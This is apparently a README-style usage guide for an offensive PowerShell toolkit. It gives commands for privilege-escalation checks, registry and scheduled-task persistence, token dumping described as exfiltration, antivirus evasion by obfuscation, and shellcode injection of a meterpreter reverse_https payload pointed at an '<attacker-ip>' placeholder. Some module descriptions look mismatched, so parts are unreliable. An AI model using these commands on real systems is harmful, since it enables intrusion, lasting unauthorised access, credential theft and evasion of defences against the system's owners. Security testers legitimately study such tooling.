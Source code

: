 ### Privilege Escalation
To elevate privileges on the compromised system:

```powershell
Import-Module ./Privesc/Privesc.psm1
Invoke-AllChecks
```

- **`Invoke-AllChecks`**: Performs various checks to identify privilege escalation opportunities.

### Persistence
To maintain persistence on a compromised system:

```powershell
Import-Module ./Persistence/Persistence.psm1
Invoke-Persistence -Registry -Daily -At 9am
```

- **`Invoke-Persistence`**: Creates a scheduled task for persistence.

### Exfiltration
To exfiltrate sensitive data from the compromised system:

```powershell
Import-Module ./Exfiltration/Exfiltration.psm1
Invoke-TokenManipulation -DumpTokens
```

- **`Invoke-TokenManipulation`**: Dumps security tokens for exfiltration.

### Antivirus Bypass
To bypass antivirus detection using obfuscation techniques:

```powershell
Import-Module ./AntivirusBypass/Invoke-Obfuscation.ps1
Invoke-Obfuscation
```

- **`Invoke-Obfuscation`**: Obfuscates PowerShell scripts to evade antivirus detection.

## Key Features and Modules

### Code Execution
- **Description:** Provides methods to execute arbitrary code on remote systems using PowerShell, shellcode injection, and other techniques.
- **Usage:**
```powershell
Import-Module ./CodeExecution/Invoke-Shellcode.ps1
Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost <attacker-ip> -Lport 443
```

### Persistence
- **Description:** Includes various techniques to maintain access to compromised systems, such as creating scheduled tasks or modifying the registry.
- **Usage:**
```powershell
Import-Module ./Persistence/Persistence.psm1
Invoke-Persistence -Registry -Daily -At 9am
```
